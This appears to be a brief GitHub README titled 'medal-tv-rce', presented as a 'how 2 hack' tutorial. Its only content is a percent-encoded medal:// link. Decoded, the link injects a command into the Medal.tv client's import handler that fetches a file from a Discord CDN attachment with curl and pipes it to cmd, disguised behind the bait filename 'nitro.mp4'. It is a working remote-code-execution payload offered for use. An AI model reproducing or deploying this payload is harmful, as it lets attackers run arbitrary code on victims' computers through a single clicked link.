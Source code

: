 # medal-tv-rce

## tutoriel how 2 hack
`<medal://import/pc?path=%22;%7C%63%75%72%6C%20%2D%73%20%68%74%74%70%73%3A%2F%2F%63%64%6E%2E%64%69%73%63%6F%72%64%61%70%70%2E%63%6F%6D%2F%61%74%74%61%63%68%6D%65%6E%74%73%2F%39%38%34%35%32%39%39%38%39%36%33%32%34%32%36%31%31%36%2F%39%39%30%34%31%39%30%34%30%32%33%35%32%39%30%37%30%34%2F%74%65%20%7Ccmd&name=nitro%2E%6D%70%34>` 

